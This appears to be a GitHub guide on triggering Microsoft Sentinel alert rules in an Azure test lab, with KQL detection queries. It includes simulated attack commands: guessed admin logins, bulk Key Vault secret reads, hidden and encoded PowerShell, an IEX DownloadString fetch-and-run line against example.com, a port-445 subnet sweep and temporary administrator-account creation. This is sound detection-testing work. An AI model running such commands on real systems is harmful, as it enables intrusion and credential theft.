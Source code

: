 # 🚨 Generate Security Events for Sentinel Testing

## Prerequisites
1. Azure Sentinel infrastructure deployed
2. Test VM running and accessible
3. Microsoft Monitoring Agent installed on VM

## 🔍 **Alert Rule 1: Suspicious Sign-in Activity**

### What it detects:
- Multiple failed login attempts (5+) from external IPs
- Triggers: High severity alert

### How to trigger:
```powershell
# On the Windows VM, simulate failed RDP attempts
# Method 1: Use PowerShell to simulate failed logins
$users = @("admin", "administrator", "root", "test", "guest")
foreach ($user in $users) {
    for ($i = 1; $i -le 3; $i++) {
        Write-Host "Simulating failed login for user: $user (attempt $i)"
        # This will generate Event ID 4625 (failed logon)
        Start-Process -FilePath "net" -ArgumentList "use", "\\127.0.0.1\c$", "/user:$user", "wrongpassword" -Wait -NoNewWindow 2>$null
        Start-Sleep 2
    }
}
```

### Manual RDP attempts:
1. Get the VM's public IP from Azure portal
2. Use Remote Desktop Connection
3. Try logging in with wrong credentials multiple times:
   - Username: `admin`, Password: `wrongpassword123`
   - Username: `administrator`, Password: `badpassword`
   - Username: `root`, Password: `hackme`

---

## 🌐 **Alert Rule 2: High-Risk IP Activity**

### What it detects:
- Authentication attempts from known malicious IPs
- Uses external threat intelligence feed

### How to trigger:
This alert uses real threat intelligence, so it's harder to simulate. Instead:

1. **Monitor the alert rule** in Sentinel → Analytics
2. **Check the query manually**:
```kql
let RiskyIPs = externaldata(IPAddress: string)
[@"https://raw.githubusercontent.com/stamparm/ipsum/master/ipsum.txt"] 
with (format="txt", ignoreFirstRecord=true)
| where IPAddress matches regex @"\d+\.\d+\.\d+\.\d+"
| extend IPAddress = trim_start(@"[0-9]+\s+", IPAddress)
| distinct IPAddress;
SigninLogs
| where TimeGenerated > ago(1d)
| where IPAddress in (RiskyIPs)
| project TimeGenerated, UserPrincipalName, IPAddress, Location, AppDisplayName, ResultType
```

---

## 🔐 **Alert Rule 3: Key Vault Access Anomalies**

### What it detects:
- Unusual access patterns to Key Vault secrets
- Triggers on 3x normal access volume

### How to trigger:
```bash
# Use Azure CLI to repeatedly access Key Vault
# First, get your Key Vault name
az keyvault list --query "[].name" -o tsv

# Then repeatedly access secrets
VAULT_NAME="your-keyvault-name"
for i in {1..50}; do
    echo "Access attempt $i"
    az keyvault secret show --name "test-secret" --vault-name $VAULT_NAME --query "value" -o tsv
    sleep 2
done
```

Or use PowerShell on the VM:
```powershell
# Install Azure PowerShell if not installed
Install-Module -Name Az -Force -AllowClobber

# Connect to Azure
Connect-AzAccount

# Repeatedly access Key Vault
$vaultName = "your-keyvault-name"  # Replace with actual name
for ($i = 1; $i -le 50; $i++) {
    Write-Host "Key Vault access attempt $i"
    try {
        Get-AzKeyVaultSecret -VaultName $vaultName -Name "test-secret" -AsPlainText
    } catch {
        Write-Host "Access attempt failed: $($_.Exception.Message)"
    }
    Start-Sleep 3
}
```

---

## 🖥️ **Generate Windows Security Events**

### Create suspicious PowerShell activity:
```powershell
# Run these commands on the Windows VM to generate security events

# 1. Suspicious PowerShell commands (Event ID 4688)
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command "Write-Host 'Test'"
powershell.exe -EncodedCommand "VwByaXRlLUhvc3QgJ1Rlc3QnOw=="
powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://example.com/test')"

# 2. Create and delete files rapidly (suspicious behavior)
for ($i = 1; $i -le 20; $i++) {
    New-Item -Path "C:\temp\suspicious_file_$i.txt" -ItemType File -Force
    Remove-Item -Path "C:\temp\suspicious_file_$i.txt" -Force
}

# 3. Network scanning simulation
1..254 | ForEach-Object {
    Test-NetConnection -ComputerName "192.168.1.$_" -Port 445 -InformationLevel Quiet
}
```

### Create user account events:
```powershell
# As Administrator, create and delete user accounts
net user testuser Password123! /add
net user testuser /delete

net user suspicioususer Password123! /add
net localgroup administrators suspicioususer /add
net localgroup administrators suspicioususer /delete
net user suspicioususer /delete
```

---

## 📊 **Monitor Alerts in Sentinel**

### 1. Check Alert Rules Status:
1. Go to Azure Portal → Microsoft Sentinel
2. Select your workspace
3. Go to **Analytics** → **Active rules**
4. Verify rules are enabled and running

### 2. View Triggered Incidents:
1. Go to **Incidents** in Sentinel
2. Look for new incidents created by your test events
3. Click on incidents to see details and investigate

### 3. Query Raw Data:
```kql
// Check for failed login events
SecurityEvent
| where TimeGenerated > ago(1h)
| where EventID == 4625  // Failed logon
| project TimeGenerated, Account, IpAddress, WorkstationName, ProcessName

// Check for PowerShell events
SecurityEvent
| where TimeGenerated > ago(1h)
| where EventID == 4688  // Process creation
| where ProcessName contains "powershell"
| project TimeGenerated, Account, ProcessName, CommandLine

// Check Key Vault access
AzureDiagnostics
| where TimeGenerated > ago(1h)
| where ResourceType == "VAULTS"
| where OperationName in ("SecretGet", "KeyGet", "VaultGet")
| project TimeGenerated, CallerIPAddress, OperationName, ResultSignature
```

---

## ⚠️ **Safety Notes**

1. **Test Environment Only**: Only run these on your test VM
2. **Clean Up**: Delete test files and accounts after testing
3. **Monitor Costs**: Watch Azure costs during testing
4. **Real Threats**: Don't use actual malicious IPs or domains

---

## 🎯 **Expected Timeline**

- **Immediate**: Security events logged to VM
- **5-10 minutes**: Events ingested into Log Analytics
- **15-30 minutes**: Alert rules evaluate and trigger
- **30+ minutes**: Incidents created in Sentinel

---

## 🔍 **Troubleshooting**

If alerts don't trigger:
1. Check if VM has Microsoft Monitoring Agent installed
2. Verify Log Analytics workspace is receiving data
3. Confirm alert rules are enabled
4. Check query syntax in Analytics rules
5. Verify time windows in alert rules match your test timing

Happy testing! 🚀
